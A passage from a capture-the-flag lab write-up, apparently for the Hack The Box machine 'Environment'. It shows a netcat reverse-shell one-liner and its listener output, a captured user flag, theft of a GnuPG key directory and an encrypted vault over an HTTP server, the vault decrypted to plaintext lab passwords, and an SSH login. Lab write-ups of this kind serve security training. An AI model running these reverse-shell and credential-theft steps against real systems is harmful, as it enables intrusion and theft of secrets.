 ![image.png](/assets/images/Environment/image%20(6).png)

Let me now execute a simple netcat reverse to get the shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-IP> 1234 >/tmp/f
```

And in our listener we got the www-data user shell.

```bash
┌──(sanke㉿vbox)-[~/Downloads/envirnment]
└─$ nc -lvnp 1234              
listening on [any] 1234 ...
connect to [10.10.14.103] from (UNKNOWN) [10.10.11.67] 37058
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
www-data@environment:~/app/storage/app/public/files$ cd /home
www-data@environment:/home$ cd hish
www-data@environment:/home/hish$ ls
backup  user.txt
www-data@environment:/home/hish$ cat user.txt
ce9f15a1c4f7a1d62260a4fbed9403a4

```

And we got our user flag!!! Let’s gooo !!

in the hish directory there was a backup that got keyvault.gpg file. So, we gonna decrypt this file using the key that we can found in /home/hish/.gnupg

First thing to do is transfer all those files to the attacker machine using the Python HTTP server.

```bash
www-data@environment:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.103 - - [06/Sep/2025 03:48:50] "GET /gnupg.tar.gz HTTP/1.1" 200 -
10.10.14.103 - - [06/Sep/2025 03:30:18] "GET /keyvault.gpg HTTP/1.1" 200 -

```

And after that i just extracted the tar file and used the gpg decryption to get the passwords.

```bash
┌──(sanke㉿vbox)-[~/Downloads/envirnment]
└─$ tar -xzf gnupg.tar.gz

┌──(sanke㉿vbox)-[~/Downloads/envirnment]
└─$ gpg --decrypt keyvault.gpg
    PAYPAL.COM -> Ihaves0meMon$yhere123
    ENVIRONMENT.HTB -> marineSPm@ster!!
    FACEBOOK.COM -> summerSunnyB3ACH!!
```

After i tried the 3 passwords with the hish user. I noticed the “marineSPm@ster!!” working on ssh.

```bash
ssh hish@10.10.11.67
marineSPm@ster!!
```
